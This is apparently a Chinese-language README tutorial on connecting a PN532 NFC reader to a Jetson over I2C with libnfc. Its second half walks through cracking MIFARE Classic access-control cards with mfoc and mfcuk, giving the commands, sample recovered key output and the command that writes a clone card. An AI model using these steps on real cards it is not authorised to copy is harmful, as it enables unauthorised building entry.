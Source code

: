 # Jetson I2C
## 1. 安装smbus库与配置——I2C
```
sudo apt-get install -y python3-smbus
sudo usermod -aG i2c <用户名>	    #添加用户组
sudo reboot 
sudo apt-get install -y i2c-tools
```

## 2. 链接NFC卡
身边只有itead公司生产的PN532 NFC卡，由于版本型号较老，这张卡只提供了26针的SPI接口，故使用I2C代替。
### 2.1 设置跳线
PN532卡上有两个跳线开关，设置成I2C模式
```
SET0-->H
SET1-->L
```
### 2.2 按照1的命令安装i2c并设置usermod
### 2.3 安装必要的应用包
```
sudo apt-get update
sudo apt-get install libusb-dev libpcsclite-dev

cd ~/Download
wget https://github.com/nfc-tools/libnfc/releases/download/libnfc-1.8.0/libnfc-1.8.0.tar.bz2
tar -xf libnfc-1.8.0.tar.bz2
cd libnfc-1.8.0 
./configure --prefix=/usr --sysconfdir=/etc
make &&sudo make install

# ubuntu系统需要拷贝权限文件
sudo cp contrib/udev/93-pn53x.rules /lib/udev/rules.d/
```
### 2.4 配置nfc
```
sudo mkdir /etc/nfc
sudo vim /etc/nfc/libnfc.conf

# Allow device auto-detection (default: true)
# Note: if this auto-detection is disabled, user has to manually set a device
# configuration using file or environment variable
allow_autoscan = true

# Allow intrusive auto-detection (default: false)
# Warning: intrusive auto-detection can seriously disturb other devices
# This option is not recommended, so user should prefer to add manually his/her device.
allow_intrusive_scan = false

# Set log level (default: error)
# Valid log levels are (in order of verbosity): 0 (none), 1 (error), 2 (info), 3 (debug)
# Note: if you compiled with --enable-debug option, the default log level is "debug"
log_level = 1

# Manually set default device (no default)
# To set a default device, users must set both name and connstring for their device
# Note: if autoscan is enabled, default device will be the first device available in device list.
device.name = "Itead_PN532"
device.connstring = "pn532_i2c:/dev/i2c-1"
```

### 2.5 硬件连接
如图所示  
![](resources/rpi_pn532_9.webp)

注意：Orin对应的3，5针脚对应的是I2C8，目前没法读取数据，需要连接27，28针脚。
### 2.6 读写NFC
至此，配置已经完成
使用命令进行测试：
```
sudo i2cdetect -y -r -a 1
     0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f
00: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
10: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
20: -- -- -- -- 24 -- -- -- -- -- -- -- -- -- -- --
30: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
40: UU -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
50: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
60: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
70: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
# 没有全部--说明连接成功

nfc-list
# 如果nfc上有卡，则会读取卡中信息
```
如果门禁卡的 SAK 是 08，是可以被mfoc破解复制的，如果为 20 的话，需要使用mfuck
```
# 官网下载mfoc
git clone https://github.com/nfc-tools/mfoc
cd mfoc 
autoreconf -is
./configure
make && sudo make install
```
破解卡片信息
```
sudo mfoc -O bak.mfd
```
如果最后运行没有报错，那么 mfoc 就已经成功备份出门禁的数据 bak.mfd 了  

如果mfoc不能直接破解，则需要使用mfuck+mfoc进行破解
mfcuk (MiFare Classic Universal toolKit) 是一款基于 dackside 攻击原理破解全加密 M1 卡的开源软件，mfcuk 通过算法的漏洞破解出第一个 key，如果某个扇区的 key 被破解出来，就可以再使用 mfoc 工具使用 nested authentication 攻击破解其他扇区的密码。
```
# 安装mfuck
git clone https://github.com/nfc-tools/mfcuk
cd mfuck
autoreconf -is
./configure
make

# 进行破解
sudo ./mfcuk -C -R 0:A -s 250 -S 250 -v 3
# 破解过程很久，直到出现
INFO: block 4 recovered KEY: 3c5d7f1e.
```
得到第一个 key 之后，我就可以跟退出 mfcuk ，通过获取到的 key，使用 mfoc 进行再次解密
```
sudo mfoc -k 3c5d7f1e -O bak.mfd
```
如果 mfcuk 破解的第一个 key 是正确的，mfoc 命令一般会在几分钟之内完成整个 M1 卡所有扇区的破解，最终将成功生成导出备份文件。

写入新卡,使用 libnfc 软件包自带的 `nfc-mfclassic` 命令进行写卡，可以通过`nfc-mfclassic -h`获得帮助
```
nfc-mfclassic w a u bak.mfd
```

### 最后
可以看到使用的工具都是利用了m1卡的漏洞进行破解，所以一张门禁卡能不能复制就要看这个门禁卡有没有漏洞，如果是最近一两年才新加装的门禁系统，估计已经没有这些漏洞可以利用了。
